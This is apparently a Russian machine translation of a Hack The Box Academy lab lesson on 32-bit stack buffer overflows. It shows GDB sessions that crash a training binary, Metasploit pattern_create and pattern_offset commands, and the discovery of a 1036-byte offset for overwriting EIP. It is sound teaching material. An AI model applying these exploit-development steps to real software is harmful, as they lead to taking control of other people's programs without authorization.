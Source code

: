 # Take Control of EIP

---

Одним из наиболее важных аспектов переполнения буфера на основе стека является получение `instruction pointer` ( `EIP`) под контролем, поэтому мы можем указать ему, по какому адресу ему следует перейти. Это сделает `EIP` укажите адрес, где находится наш `shellcode` запускается и заставляет процессор выполнить его.

Мы можем выполнять команды в GDB, используя Python, который служит нам непосредственно входными данными.

#### Segmentation Fault

Возьмите под свой контроль EIP

```shell-session
student@nix-bow:~$ gdb -q bow32

(gdb) run $(python -c "print '\x55' * 1200")
Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1200")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

Если мы вставим 1200" `U`"s (шестнадцатеричный" `55`") в качестве входных данных мы видим из информации регистра, что мы перезаписали `EIP`. Насколько нам известно, `EIP` указывает на следующую команду, которая будет выполнена.

Возьмите под свой контроль EIP

```shell-session
(gdb) info registers 

eax            0x1	1
ecx            0xffffd6c0	-10560
edx            0xffffd06f	-12177
ebx            0x55555555	1431655765
esp            0xffffcfd0	0xffffcfd0
ebp            0x55555555	0x55555555		# <---- EBP overwritten
esi            0xf7fb5000	-134524928
edi            0x0	0
eip            0x55555555	0x55555555		# <---- EIP overwritten
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```

Если мы хотим представить процесс визуально, то процесс выглядит примерно так.

#### Buffer

![[Pasted image 20240806050859.png]]

Это означает, что нам нужно записать доступ к EIP. Это, в свою очередь, позволяет указать, на какой адрес памяти должен перейти EIP. Однако для манипулирования регистром нам нужно точное количество U до EIP, чтобы следующие 4 байта можно было перезаписать желаемым адресом памяти.

---

## Determine The Offset

Смещение используется для определения того, сколько байт необходимо для перезаписи буфера и сколько места у нас есть вокруг нашего шеллкода.

Шеллкод — это программный код, содержащий инструкции для операции, которую мы хотим, чтобы процессор выполнил. Ручное создание шеллкода будет более подробно рассмотрено в других модулях. Но чтобы сначала сэкономить время, мы используем Metasploit Framework (MSF), который предлагает скрипт Ruby под названием «pattern_create», который может помочь нам определить точное количество байтов для достижения EIP. Он создает уникальную строку на основе указанной вами длины байтов, чтобы помочь определить смещение.

#### Create Pattern

Возьмите под свой контроль EIP

```shell-session
Uliam@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
Uliam@htb[/htb]$ cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9
```

Теперь заменяем наш 1200" `U`"с сгенерированными шаблонами и снова сосредоточим внимание на EIP.

#### GDB - Using Generated Pattern

Возьмите под свой контроль EIP

```shell-session
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
```

#### GDB - EIP

Возьмите под свой контроль EIP

```shell-session
(gdb) info registers eip

eip            0x69423569	0x69423569
```

Мы видим, что `EIP` отображает другой адрес памяти, и мы можем использовать другой инструмент MSF под названием « `pattern_offset`", чтобы вычислить точное количество символов (смещение), необходимое для перехода к `EIP`.

#### GDB - Offset

Возьмите под свой контроль EIP

```shell-session
Uliam@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```

#### Buffer

![[Pasted image 20240806050946.png]]

Если мы теперь будем использовать именно это количество байтов для нашего " `U`"s, мы должны приземлиться точно на `EIP`. Чтобы перезаписать его и проверить, достигли ли мы его, как планировалось, мы можем добавить еще 4 байта с помощью " `\x66`" и выполнить его, чтобы гарантировать, что мы контролируем `EIP`.

#### GDB Offset

Возьмите под свой контроль EIP

```shell-session
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

#### Buffer

![изображение](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_4.png)

Теперь мы видим, что мы перезаписали `EIP` с нашим " `\x66`" символов. Далее нам нужно выяснить, сколько места у нас есть для нашего шеллкода, который затем выполняет нужные нам команды. Поскольку мы контролируем `EIP` теперь мы позже перезапишем его адресом, указывающим на начало нашего шеллкода.